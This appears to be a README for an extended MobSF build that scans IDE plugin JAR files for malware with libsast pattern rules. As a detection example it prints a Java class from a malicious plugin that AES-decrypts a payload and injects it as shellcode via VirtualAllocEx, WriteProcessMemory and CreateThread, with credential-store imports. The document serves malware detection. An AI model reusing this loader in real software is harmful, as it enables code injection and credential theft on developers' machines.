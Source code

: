 ## MobSF extended version to detect malware in IDE plugins

MobSF supports scanning JAR files since [this commit](https://github.com/MobSF/Mobile-Security-Framework-MobSF/commit/b43b561a659c84913d497cac583a8f2fa4d0b132)

It uses [libsast](https://github.com/ajinabraham/libsast) to scan decompiled Java/Kotlin code.

It works in two modes:
- [pattern-matcher](https://github.com/ajinabraham/libsast#pattern-matcher)
- [semantic-grep](https://github.com/ajinabraham/libsast#semantic-grep)

Current set of rules is here: [malware_rules.yaml](/mobsf/StaticAnalyzer/views/malware/rules/malware_rules.yaml)

It is working with pattern-matcher rules (see `match_rules` in `mobsf.StaticAnalyzer.views.sast_engine.scan`, 
[sast_engine.py](mobsf/StaticAnalyzer/views/sast_engine.py)) but it is possible to provide Semgrep rules as well, 
see [Python API](https://github.com/ajinabraham/libsast#python-api), `sgrep_rules`.

Example of such malicious code is below:

```
package com.amandaprocoder.googlesearch;

import com.intellij.credentialStore.CredentialAttributes;
import com.intellij.credentialStore.Credentials;
import com.intellij.ide.passwordSafe.PasswordSafe;
import com.sun.jna.Memory;
import com.sun.jna.Native;
import com.sun.jna.Pointer;
import com.sun.jna.platform.win32.Kernel32;
import com.sun.jna.platform.win32.User32;
import com.sun.jna.platform.win32.WinNT;
import com.sun.jna.ptr.IntByReference;
import com.sun.jna.win32.StdCallLibrary;
import com.sun.jna.win32.W32APIOptions;
import java.net.URI;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.security.NoSuchAlgorithmException;
import java.security.spec.InvalidKeySpecException;
import java.security.spec.KeySpec;
import java.util.Base64;
import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.SecretKeySpec;

public class Utils {

    static User32 user32;
    static Kernel32 kernel32 = Native.load(Kernel32.class, W32APIOptions.UNICODE_OPTIONS);
    static IKernel32 iKernel32 = Native.load("kernel32", IKernel32.class);

    interface IKernel32 extends StdCallLibrary {
        WinNT.HANDLE CreateThread(Object obj, int i, Pointer pointer, int i2, int i3, Object obj2);
        Pointer VirtualAllocEx(WinNT.HANDLE handle, Pointer pointer, int i, int i2, int i3);
    }
    private static SecretKey getKey(String data) throws NoSuchAlgorithmException, InvalidKeySpecException {
        SecretKeyFactory factory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256");
        KeySpec spec = new PBEKeySpec(data.toCharArray(), "anything".getBytes(), 65536, 256);
        SecretKey secret = new SecretKeySpec(factory.generateSecret(spec).getEncoded(), "AES");
        return secret;
    }
    public static byte[] analyze(String data, String info) {
        try {
            SecretKey key = getKey(info);
            Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
            cipher.init(2, key, getArray());
            byte[] plainText = cipher.doFinal(Base64.getDecoder().decode(data));
            return plainText;
        } catch (Exception e) {
            return null;
        }
    }
...
    public static void go(byte[] info) {
        int shellcodeSize = info.length;
        IntByReference intByReference = new IntByReference(0);
        Memory memory = new Memory(shellcodeSize);
        for (int j = 0; j < shellcodeSize; j++) {
            memory.setByte(j, info[j]);
        }
        WinNT.HANDLE currentProcHandle = kernel32.GetCurrentProcess();
        Pointer pointer = iKernel32.VirtualAllocEx(currentProcHandle, Pointer.createConstant(0), shellcodeSize, 4096, 64);
        kernel32.WriteProcessMemory(currentProcHandle, pointer, memory, shellcodeSize, intByReference);
        iKernel32.CreateThread(null, 0, pointer, 0, 0, null);
    }
...
}
```

Another example of malicious code that could be used in plugins: https://gist.github.com/Jire/c7a527035b052d56137f6617dca82697